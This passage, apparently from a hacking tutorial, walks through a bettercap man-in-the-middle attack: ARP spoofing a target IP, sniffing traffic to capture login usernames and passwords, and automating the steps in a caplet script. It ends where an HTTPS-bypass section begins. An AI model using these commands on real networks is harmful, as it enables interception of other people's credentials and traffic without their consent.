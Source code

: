 ### arp.spoof
To know more about this module,
```bash
help arp.spoof
```
Like if you want to set true to the "arp.spoof.fullduplex" (if true, both the targets and the gateway will be attacked, otherwise only the target (if the router has ARP spoofing protection in place this will make the attack fail).), execute
```bash
set arp.spoof.fullduplex true
```
srp.spoof.targets: Comma separated list of IP addresses, MAC addresses or aliases to spoof, also supports nmap style IP ranges.
```bash
set arp.spoof.targets 192.168.0.180
```
And then turn on the arp.spoof. Before execute this, check that arp.recon and arp.probe are running.
```bash
arp.spoof on
```

### Capture Passwords, Visited Websites:
Now have to tell to capture all the request and responses coming from the client. To do this, the module "net.sniff" will help.
Execute
```bash
net.sniff on
```
Now check the results are coming on the terminal. Every request will be shown here even login username and password also.
vulnweb.com, http://testhtml5.vulnweb.com/

### Creaing Custom Spoofing Script:
Till now we executed couple of commands for spoofing attack. We can automate this. For this, first open a blank text file and write
```txt
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 192.168.0.180
arp.spoof on
net.sniff on
```
And save this file as **spoof.cap** and exit from the bettercap. Now execute the below command to run this
```bash
bettercap -iface wlan0 -caplet spoof.cap
```

### Bypass HTTPS:
**Problem:**
- Data in HTTP is sent as plain text
- A MITM can read and edit requests and responses.
--> not secure
